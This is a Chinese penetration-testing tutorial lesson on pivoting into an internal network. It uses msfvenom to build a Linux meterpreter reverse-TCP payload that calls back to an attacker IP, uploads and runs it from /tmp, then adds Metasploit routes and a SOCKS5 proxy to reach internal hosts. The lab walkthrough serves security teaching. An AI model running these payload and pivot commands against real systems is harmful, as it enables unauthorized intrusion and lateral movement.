# 网络安全系统教程：P70：57. 反弹Shell建立Socks代理访问内网 🚀









在本节课中，我们将学习如何通过反弹Shell建立Socks代理，从而访问目标内网中原本无法直接到达的网络资源。这是渗透测试中横向移动和访问内部网络的关键技术。

## 反弹Shell与框架选择







上一节我们介绍了基础的Shell获取方法，本节中我们来看看如何利用成熟的框架进行更高效的操作。反弹Shell是指将目标机器的Shell会话反弹到攻击者控制的服务器上。为了实现更强大的功能，我们通常使用集成了多种工具的框架，例如Cobalt Strike (CS) 或 Metasploit Framework (MSF)。使用这些框架可以更好地进行后续操作和测试。





## 生成并上传Linux木马



为了在Linux目标机上建立反弹Shell，我们需要生成一个适用于Linux系统的木马程序。



以下是生成Linux木马的关键步骤：
1.  使用MSF的`msfvenom`工具生成Linux可执行文件(ELF格式)。
2.  命令格式为：`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<攻击者IP> LPORT=<监听端口> -f elf -o msf.elf`
    *   `-p`：指定Payload（攻击载荷）。
    *   `LHOST`：指定反弹Shell回连的攻击者IP地址。
    *   `LPORT`：指定攻击者的监听端口。
    *   `-f elf`：指定输出格式为Linux可执行文件(ELF)。
    *   `-o msf.elf`：指定输出文件名。

生成木马文件后，需要将其上传到目标Linux机器。通常，我们会选择上传到`/tmp`目录，因为该目录通常对所有用户都有读写和执行权限（权限为777），便于我们操作。

上传后，需要赋予该文件执行权限，命令为：`chmod +x /tmp/msf.elf`。然后执行该文件：`/tmp/msf.elf`。



## 建立监听与会话







在攻击者机器上，我们需要使用MSF建立一个监听器来接收反弹回来的Shell会话。

以下是建立监听器的步骤：
1.  启动MSF控制台：`msfconsole`
2.  使用`exploit/multi/handler`模块。
3.  设置与生成木马时相同的Payload、LHOST和LPORT。
4.  执行`exploit`或`run`命令开始监听。

当目标机执行木马程序后，在MSF中就会成功建立一个Meterpreter会话（例如session 5）。通过此会话，我们便可以在目标机上执行命令。

## 为何需要Socks代理？



现在，我们通过跳板机（IP: 192.168.78.6）获得了一个内网入口。假设内网中还存在一个192.168.2.0/24的网段，并且跳板机可以访问该网段。

然而，我们的攻击机（IP: 192.168.78.114）无法直接访问192.168.2.0/24网段。如果我们想直接从攻击机上使用浏览器、扫描器等工具访问内网的Web服务（例如192.168.2.2:80），就需要建立一个代理通道。Socks代理正是实现这一目标的工具，它可以将我们的网络流量通过已控制的跳板机转发到内网。

## 添加路由与建立Socks代理



为了让MSF能够将流量导向内网，我们需要在已建立的Meterpreter会话中添加路由。



以下是配置路由和代理的步骤：
1.  **添加路由**：在MSF的Meterpreter会话中，执行命令：`run autoroute -s 192.168.2.0/24`。此命令告诉MSF，所有发往192.168.2.0/24网段的流量，都应通过当前这个Meterpreter会话（session 5）来转发。这类似于在网络中设置了一个网关。
2.  **建立Socks代理服务**：在MSF控制台（非Meterpreter会话）中，使用`auxiliary/server/socks_proxy`模块。设置代理版本（通常为socks5）和监听端口（例如1080），然后执行`run`命令。这会在攻击机的1080端口启动一个Socks5代理服务。

## 通过代理访问内网资源

代理服务建立后，我们就可以配置工具通过该代理访问内网。

以下是验证代理可用的方法：
*   **使用curl命令测试**：
    *   直接访问会失败：`curl http://192.168.2.2:80` （显示无法连接）。
    *   通过代理访问（以Linux为例）：`curl --socks5 127.0.0.1:1080 http://192.168.2.2:80`，此时应能成功获取内网Web页面的响应。
*   **配置浏览器代理**：
    *   在浏览器网络设置中，手动配置代理。地址为`127.0.0.1`，端口为`1080`，类型为`SOCKS5`。
    *   配置完成后，在浏览器中直接输入`http://192.168.2.2`，即可访问内网网站。

**流量走向分析**：
1.  攻击者工具（浏览器/扫描器）的流量发往`127.0.0.1:1080`（本地Socks代理）。
2.  MSF的Socks代理服务接收到流量，发现目的地是`192.168.2.0/24`网段。
3.  MSF根据之前添加的路由，将该流量通过Meterpreter会话（session 5）发送给跳板机。
4.  跳板机在其网络内，将流量最终送达内网目标`192.168.2.2`。
5.  返回的响应数据沿原路径反向传回攻击者工具。





## 总结



本节课中我们一起学习了内网渗透中一项非常重要的技术：通过反弹Shell建立Socks代理。我们首先利用MSF生成Linux木马并获取目标机的Meterpreter会话；然后，通过在该会话中添加路由，指引MSF如何访问内网网段；最后，在MSF上启动Socks代理服务，将我们的攻击流量通过跳板机隧道转发到内网，从而实现了从外网直接访问和内网探测的目的。掌握这一流程，对于进行深入的内网横向移动至关重要。